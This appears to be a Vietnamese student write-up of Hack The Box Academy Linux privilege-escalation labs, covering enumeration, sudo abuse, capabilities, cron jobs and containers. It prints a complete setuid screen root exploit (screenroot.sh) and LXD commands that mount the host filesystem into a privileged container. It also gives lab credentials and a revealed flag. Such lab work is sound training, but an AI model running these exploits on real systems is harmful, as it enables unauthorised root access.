

# Environment Enumeration

#### Questions
 SSH to 10.129.36.91 (ACADEMY-LLPE-SUDO) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Enumerate the Linux environment and look for interesting files that might contain sensitive data. Submit the flag as the answer.

Chúng ta có thể chạy `/bin/ncdu` với người dùng khác ngoại trừ root.


Tại GTFObins, có thể dễ dàng leo thang đặc quyền.


Chúng ta có thể di chuyển sang người dùng khác.

```zsh
$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:110:1::/var/cache/pollinate:/bin/false
lab_adm:x:1000:1000:lab_adm:/home/lab_adm:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
htb-student:x:1001:1001::/home/htb-student:/bin/sh

$ sudo -u#1000 /bin/ncdu
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/htb-student/.bashrc: Permission denied
lab_adm@ubuntu:/home/lab_adm$ 
```

Dù người dùng `lab_admin` nằm trong nhóm `sudo` nhưng chúng ta không biết mật khẩu, ngoài ra phiên bản sudo có thể bị khai thác.

```zsh
lab_adm@ubuntu:/home/lab_adm$ uname -a
Linux ubuntu 5.4.0-148-generic #165-Ubuntu SMP Tue Apr 18 08:53:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
lab_adm@ubuntu:/home/lab_adm$ id
uid=1000(lab_adm) gid=1000(lab_adm) groups=1000(lab_adm),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)


lab_adm@ubuntu:/home/lab_adm$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Sau khi thử nhiều cách mà không lên được `root` tôi thử đọc `.viminfor` và thấy được file chứa flag


Tôi đánh giá rằng lab này thiết kế rất kém, câu hỏi đặt ra không rõ ràng, chúng ta phải lên root để tìm flag hay đơn thuần là tìm flag?


# Linux Services & Internals Enumeration
#### Questions
 SSH to 10.129.205.110 (ACADEMY-LLPE-SUDO) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  What is the latest Python version that is installed on the target?

Tương tự như lab trước, chúng ta có thể có được shell của `lab_adm` với cùng cách sử dụng `/bin/ncdu`

```zsh
$ chmod 777 /home/htb-student
$ sudo -u#1000 /bin/ncdu
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

lab_adm@ubuntu:~$ which python
lab_adm@ubuntu:~$ 
```

Không thể dùng which, vậy tôi sẽ liệt kê các tập lệnh thực thi.

```zsh
ls -la /bin /usr/bin /usr/sbin
```

Phiên bản python mới nhất có lẽ là 3.11


# Credential Hunting

#### Questions
 SSH to  with user "htb-student" and password "Academy_LLPE!"

+ 1  Find the WordPress database password.

```zsh
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```


# Path Abuse

#### Questions
 SSH to 10.129.2.210 (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!"

+ 1  Review the PATH of the htb-student user. What non-default directory is part of the user's PATH?


# Escaping Restricted Shells

#### Questions

 SSH to with user "htb-user" and password "HTB_@cademy_us3r!"

+ 0  Use different approaches to escape the restricted shell and read the flag.txt file. Submit the contents as the answer.

```rbash
htb-user@ubuntu:~$ echo $(<flag.txt)
HTB{35c4p3_7h3_r3stricted_5h311}
```


# Special Permissions
#### Questions
 SSH to 10.129.2.210 (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!"

+ 1  Find a file with the setuid bit set that was not shown in the section command output (full path to the binary).

```zsh
/bin/sed
```

+ 1  Find a file with the setgid bit set that was not shown in the section command output (full path to the binary).

```zsh
/usr/bin/facter
```

# Sudo Rights Abuse

#### Questions
 SSH to 10.129.2.210 (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!"

+ 1  What command can the htb-student user run as root?

```zsh
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

# Privileged Groups

#### Questions
 SSH to 10.129.2.210 (ACADEMY-LPE-NIX02) with user "secaudit" and password "Academy_LLPE!"

+ 1  Use the privileged group rights of the secaudit user to locate a flag.

```zsh
secaudit@NIX02:~$ id
uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

```zsh
grep -r flag /var/log 2>/dev/null
```


# Capabilities

#### Questions

 SSH to 10.129.205.111 (ACADEMY-LLPE-CAP) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer.

```zsh
htb-student@ubuntu:~$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_dac_override+eip
```

Chúng ta có thể lợi dụng `cap` để đọc file tuy nhiên không thể sửa file.


Đơn giản thì chúng ta sẽ đọc file flag.txt


# Vulnerable Services

#### Questions
 SSH to 10.129.34.96 (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!"

+ 1  Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen_exploit directory.

Phiên bản này có thể bị khai thác để leo thang đặc quyền.

```zsh
htb-student@NIX02:~$ screen -v
Screen version 4.05.00 (GNU) 10-Dec-16
```

Mã khai thác:

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Thành công có quyền `root`


# Cron Job Abuse

#### Questions
 SSH to 10.129.34.96 (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!"

+ 1  Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron_abuse directory.


Chúng ta có thể chú ý đến một vài file:

```zsh
/etc/cron.daily/backup
/dmz-backups/backup.sh
/home/backupsvc/backup.sh
```

Chạy `pspy64` và quan sát xem tập lệnh nào được chạy trong thời gian ngắn, từ đó khai thác.


Chúng ta hoàn toàn có thể thêm một đoạn mã để lấy reverse shell với tư cách là root.

```zsh
htb-student@NIX02:~$ ls -l /dmz-backups/backup.sh 
-rwxrwxrwx 1 root root 189 Nov  6  2020 /dmz-backups/backup.sh
```


# Container

#### Questions
 SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Escalate the privileges and submit the contents of flag.txt as the answer.

Phát hiện có một Container



Tiến hành import image

```zsh
htb-student@ubuntu:~/ContainerImages$ lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpinetemp
Image imported with fingerprint: b14f17d61b9d2997ebe1d3620fbfb2e48773678c186c2294c073e2122c41a485
htb-student@ubuntu:~/ContainerImages$ lxc image list
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|   ALIAS    | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpinetemp | b14f17d61b9d | no     | alpine v3.18 (20230607_12:34) | x86_64       | CONTAINER | 3.62MB | Jul 28, 2025 at 2:07pm (UTC) |
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

Cấu hình loại bỏ các hạn chế và mount vào ổ đĩa:

```zsh
htb-student@ubuntu:~/ContainerImages$ lxc init alpinetemp privesc -c security.privileged=true
Creating privesc
htb-student@ubuntu:~/ContainerImages$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Khởi chạy Containers


